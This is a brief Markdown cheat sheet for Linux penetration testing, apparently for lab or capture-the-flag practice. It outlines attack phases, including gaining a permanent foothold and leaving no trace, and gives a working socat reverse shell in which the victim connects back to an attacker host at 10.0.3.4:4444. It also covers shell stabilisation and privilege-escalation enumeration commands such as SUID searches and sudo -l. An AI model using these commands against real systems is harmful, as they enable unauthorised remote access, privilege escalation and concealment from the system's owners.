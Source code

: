 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell
atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands
List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
